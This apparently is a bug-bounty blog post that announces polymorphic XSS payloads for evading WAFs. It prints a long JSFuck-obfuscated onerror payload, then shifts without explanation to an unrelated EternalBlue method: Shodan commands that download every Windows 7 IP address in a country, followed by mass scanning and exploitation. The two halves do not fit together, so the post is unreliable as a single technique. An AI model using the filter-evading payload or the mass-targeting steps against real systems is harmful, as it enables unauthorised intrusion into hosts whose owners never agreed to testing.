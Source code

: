 ```yaml
---
layout: post
title:  Exploiting Cross-Site Scripting Vulnerabilities with Polymorphic Payloads
description: In this post, the use of polymorphism in JavaScript execution payloads in Cross-Site Scripting (XSS) attacks is presented.
date:   2024-05-23 11:01:35 +0300
image:  '/images/150.jpg'
tags:   [bug bounty, web]
---
```


Hello hackers,

Today, I want to introduce an intriguing topic I've recently started studying: polymorphic JavaScript execution payloads for Cross-Site Scripting (XSS) attacks. This advanced technique can help bypass Web Application Firewalls (WAFs) and various filters, making it an invaluable tool for our bug bounty hunts and penetration tests. By understanding and applying polymorphism in our payloads, we can enhance our ability to exploit vulnerabilities more effectively and evade defensive mechanisms. This knowledge is essential for anyone looking to stay ahead in the ever-evolving landscape of web security.

### JSFuck

JSFuck is an esoteric and educational programming style based on the atomic parts of JavaScript. It uniquely utilizes only six different characters to write and execute code: [ ] ( ) ! +. This minimalist approach not only highlights the flexibility and power of JavaScript but also serves as an intriguing challenge for developers.

One of the remarkable features of JSFuck is its independence from the browser environment. This means you can run JSFuck code in Node.js, broadening its applications beyond traditional web contexts. Whether you are exploring the depths of JavaScript's capabilities or looking for unconventional ways to obfuscate code, JSFuck offers a fascinating avenue for both learning and experimentation.

An example of using JSFuck is the following payload, where all characters after "onerror" correspond to the JavaScript code alert(1).

{% highlight js %}
    <img src=x onerror=[][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]][([][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]]((!![]+[])[+!+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+([][[]]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+!+[]]+(+[![]]+[][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+!+[]]]+(!![]+[])[!+[]+!+[]+!+[]]+(+(!+[]+!+[]+!+[]+[+!+[]]))[(!![]+[])[+[]]+(!![]+[][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+[]]]+([]+[])[([][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]][([][[]]+[])[+!+[]]+(![]+[])[+!+[]]+((+[])[([][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]]+[])[+!+[]+[+!+[]]]+(!![]+[])[!+[]+!+[]+!+[]]]](!+[]+!+[]+!+[]+[!+[]+!+[]])+(![]+[])[+!+[]]+(![]+[])[!+[]+!+[]])()((![]+[])[+!+[]]+(![]+[])[!+[]+!+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]+(!![]+[])[+[]]+([][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]]+[])[+!+[]+[!+[]+!+[]+!+[]]]+[+!+[]]+([+[]]+![]+[][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]])[!+[]+!+[]+[+[]]])>
{% endhighlight %}


### Technique
This technique persists in a 5-step process, they are:
1. Choice of vulnerability;
2. Collection of information about aspects of hosts in which the vulnerability is present (Example: EternalBlue — Windows 7);
3. Collection of hosts;
4. Scan directed to the hosts to validate the “chosen” vulnerability;
5. Exploitation.

### Detailing
* Choice of vulnerability: Let’s use EternalBlue as an example;
* Collection of information about aspects of hosts in which the vulnerability is present: Eternalblue is the characteristics of the hosts in which we can link the vulnerability during our survey of hosts is:
Microsoft Windows Vista SP2; Windows Server 2008 SP2 and R2 SP1; Windows 7 SP1; Windows 8.1; Windows Server 2012 Gold and R2; Windows RT 8.1; and Windows 10 Gold, 1511, and 1607; and Windows Server 2016;
* Collection of hosts: For this step, we are going to use the shodan API.

{% highlight js %}
    shodan download --limit -1 --fields ip_str test.json os:windows 7 country:<>
{% endhighlight %}

Here is the meaning of each part of the command:

* “shodan download”: Indicates the command to start downloading the search results;
* “ — limit -1”: Sets the result limit to -1, which means there is no limit on the number of results;
* “ — fields ip_str”: Specifies the fields that will be included in the download file. In this case, only the field “ip_str” (IP address) will be included;
* “test.json”: Is the name of the file where the results will be saved. In this case, the file will be called “test.json”;
* “os:windows 7”: This is a filter applied to the search to return only hosts that have the Windows 7 operating system;
* “country:<>”: This is another filter applied to the search to return only hosts located in country.

In short, this command asks Shodan to download information from all hosts running Windows 7 operating system located in country, saving only the IP addresses of these hosts in the “test.json” file. Using the “ — limit -1” parameter ensures that all results are downloaded, with no quantity restrictions.

{% highlight js %}
    shodan parse --fields ip_str test.json.gz
{% endhighlight %}

The command is used to analyze and extract specific information from a compressed file in JSON format, which contains data downloaded from Shodan.

* Scan directed to the hosts to validate the “chosen” vulnerability: For this step, we can use any tool or exploit directed to that vulnerability that we have selected to massively check all the ip’s in search of which ones are in fact vulnerable. Ex: Nmap, Nuclei, Custom Tool.
* Exploitation: In this step, we take all the hosts that are really vulnerable to that vulnerability and we exploit it manually with an exploit or something like that.

Note: This article has the sole purpose of studying and seeking knowledge. The information presented here is intended solely for educational and informational purposes.